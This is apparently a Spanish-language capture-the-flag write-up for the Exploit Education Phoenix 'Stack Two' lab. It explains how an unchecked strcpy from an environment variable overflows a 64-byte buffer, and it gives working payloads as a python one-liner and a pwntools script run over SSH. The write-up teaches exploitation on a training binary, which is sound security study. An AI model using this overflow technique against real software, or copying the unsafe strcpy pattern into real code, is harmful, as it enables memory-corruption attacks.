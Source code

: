 ```yaml
---
layout: single
title: "Stack Two"
permalink: /pwn/phoenix/stack-two/
parent: Phoenix
comments: true
excerpt: "Stack Two"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En **Stack Two** se introduce el uso de variables de entorno y cómo pueden ser manipuladas para explotar un desbordamiento de buffer.


## Análisis del código fuente

El objetivo es modificar la variable changeme con el valor **0x0d0a090a** Para lograrlo, el programa copia sin validación el contenido de la variable de entorno ExploitEducation al buffer locals.buffer, lo que abre la puerta a un buffer overflow.


```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bathroom, and you are Finnish when you get
 * out, what are you when you are in the bathroom?
 *
 * European!
 */

#include <err.h>    // Biblioteca para manejo de errores (errx).
#include <stdio.h>  // Biblioteca estándar para entrada/salida.
#include <stdlib.h> // Biblioteca estándar para funciones generales como getenv() y exit().
#include <string.h> // Biblioteca para funciones de manipulación de cadenas como strcpy().
#include <unistd.h> // Biblioteca para funciones del sistema operativo POSIX.

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa.

int main(int argc, char **argv) { 
  // Función principal, recibe argumentos de línea de comandos.

  struct { 
    char buffer[64];          // Define un buffer de 64 bytes para almacenar datos.
    volatile int changeme;    // Variable que debe modificarse mediante un exploit.
  } locals;                   // Agrupa estas variables dentro de la estructura 'locals'.

  char *ptr; 
  // Apuntador para almacenar el valor de una variable de entorno.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida definido en BANNER.

  ptr = getenv("ExploitEducation"); 
  // Obtiene el valor de la variable de entorno "ExploitEducation".
  if (ptr == NULL) { 
    // Verifica si la variable de entorno no está configurada.
    errx(1, "please set the ExploitEducation environment variable"); 
    // Muestra un mensaje de error y termina el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, ptr); 
  // Copia el contenido de la variable de entorno "ExploitEducation" en el buffer 'buffer'.
  // Vulnerabilidad: No verifica el tamaño del contenido, lo que permite un desbordamiento de buffer.

  if (locals.changeme == 0x0d0a090a) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x0d0a090a.
    puts("Well done, you have successfully set changeme to the correct value"); 
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n", locals.changeme); 
    // Si el valor no es el esperado, imprime el valor actual de 'changeme' y el valor deseado.
  }

  exit(0); 
  // Termina el programa correctamente con el código de salida 0.
}

```

**Ejecución del binario**

Si ejecutamos el binario sin definir la variable de entorno, aparece un mensaje de error que nos dice: Por favor, configure la variable de entorno ExploitEducation.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

Al definir la variable con 64 caracteres de A vemos que con esto ya nos da la respuesta de que la variable está en **0x00000000**

```jsx
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

```

**Confirmando el overflow**

Si añadimos BBBB (0x42 en ASCII) después de los 64 A, el valor de changeme cambia a **0x42424242** esto confirma que estamos sobreescribiendo la variable.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x42424242, we want 0x0d0a090a

```
**Explotación**

Ahora sobreescribimos con el valor solicitado **0x0d0a090a** cuidando el endianness (little-endian en x86): **\x0A\x09\x0A\x0D** y con esto confirmamos que se logra el reto


```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print "A"*64 + "\x0A\x09\x0A\x0D"')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Explotación con Pwntools**

También podemos automatizar este proceso con un script en Python

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64
   6   │ payload += p32(0x0d0a090a)
   7   │ 
   8   │ # Establece conexión SSH
   9   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
  10   │ 
  11   │ # Configura la variable de entorno 'ExploitEducation'
  12   │ env_vars = {"ExploitEducation": payload}
  13   │ 
  14   │ # Ejecuta el programa remoto con la variable de entorno configurada
  15   │ process = ssh_connection.process(executable='/opt/phoenix/amd64/stack-two', env=env_vars)
  16   │ 
  17   │ # Captura y muestra la salida
  18   │ flag = process.recvall().decode()
  19   │ log.success("Output: " + flag)
  20   │ 
  21   │ # Cierra la conexión
  22   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/opt/phoenix/amd64/stack-two' on localhost: pid 583
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-two'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-two' on localhost (pid 583)
[+] Output: Welcome to phoenix/stack-two, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value
```

**Conclusión**

En Stack Two vimos cómo una variable de entorno puede ser aprovechada para provocar un desbordamiento de buffer y modificar variables internas del programa.

El reto refuerza dos ideas clave:

  - Las funciones inseguras como strcpy deben evitarse.

  - Variables de entorno pueden ser un vector de ataque si no se validan correctamente.

  - Con esta técnica pudimos manipular la variable changeme y completar el reto con éxito.